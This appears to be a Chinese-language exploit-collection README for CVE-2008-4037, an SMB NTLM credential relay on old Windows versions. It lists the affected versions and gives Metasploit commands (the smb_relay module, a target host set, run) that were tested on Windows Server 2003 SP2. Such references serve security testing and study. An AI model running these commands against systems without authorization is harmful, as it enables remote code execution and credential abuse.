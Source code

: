 ### CVE-2008-4037

#### 描述

通过远程SMB服务器可以重播客户端用户的NTLM凭据在客户端计算机上执行任意代码

#### 影响版本

| Product             | CPU Architecture | Version | Update | Tested             |
| ------------------- | ---------------- | ------- | ------ | ------------------ |
| Windows XP          |                  |         | SP2    |                    |
| Windows XP          |                  |         | SP3    |                    |
| Windows Server 2003 |                  |         | SP1    |                    |
| Windows Server 2003 |                  |         | SP2    | :heavy_check_mark: |
| Windows 2000        |                  |         | SP4    |                    |
| Windows Server 2008 | X64/X86          |         |        |                    |
| Windows Vista       |                  |         | SP1    |                    |
| Windows Vista       |                  |         |        |                    |

#### 利用方式

使用msf 测试系统Windows Server 2003 SP2 x86

```
use exploit/windows/smb/smb_relay
set SMBHOST 192.168.1.14 #目标IP
run
```

![image-20200823142846532](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2008-4037_win2003_x86_msf.png?raw=true)

